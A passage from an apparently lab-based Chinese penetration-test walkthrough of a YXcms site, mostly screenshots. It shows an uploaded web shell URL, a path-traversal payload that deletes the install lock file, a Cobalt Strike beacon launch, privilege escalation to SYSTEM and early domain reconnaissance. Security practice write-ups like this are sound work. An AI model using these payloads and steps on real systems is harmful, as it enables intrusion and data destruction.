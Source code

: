 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606205750460.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

http://192.168.60.170/yxcms/protected/apps/default/view/default/shell.php.php

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060620593277.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


### 任意文件删除
需要先登录后台，然后访问之后会显示缩略图不存在

Payload：http://sb.com/index.php?r=admin/photo/delpic
POST：picname=../../protected/apps/install/install.lock
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606210838681.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606210910776.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606210932424.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)








## 后渗透阶段

上线CS
```bash
start artifact.exe
```




![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606182416561.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
这个密码就是默认密码


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606193616590.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)
提权至system用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210606194813169.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

### 域控信息收集


查看内网网段

域控一般为 DNS 主机
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607105759789.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)






whoami，hostname
